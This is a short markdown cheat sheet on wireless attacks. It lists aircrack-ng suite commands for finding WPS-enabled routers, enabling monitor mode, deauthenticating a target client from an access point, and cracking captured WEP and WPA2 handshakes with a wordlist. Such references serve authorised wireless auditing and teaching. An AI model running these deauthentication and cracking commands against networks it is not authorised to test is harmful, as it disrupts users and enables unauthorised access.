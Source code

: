 ## Hacking wireless cheat sheet

### Discover the AP, ESSID, and BSSID of a device router with WPS enabled

```sh
wash -i [INTERFACE]
```

### airmon-ng

#### Kill any conflicting processes

```sh
airmon-ng check kill
```

#### Set monitor mode to an interface (create monitor mode virtualized adapter)

```sh
airmon-ng start [INTERFACE]
```

#### Wizard

```sh
airoscript-ng
```

#### De-authentication attack
De-authenticate and desassociate a client.

```sh
aireplay-ng --deauth 25 -h [TARGET MAC] -b [AP MAC] [INTERFACE]
```

#### Crack WEP password

```sh
aircrack-ng 'wireless-data-01.cap'
```

#### Crack WPA2 password

```sh
aircrack-ng -a2 -b [TARGET BSSID] -w dictionary.txt 'wireless-data-01.cap'
```
-a: Technique used to crack the handshake. 2=WPA technique.

-b: BSSID of the target router.

-w: Wordlist.

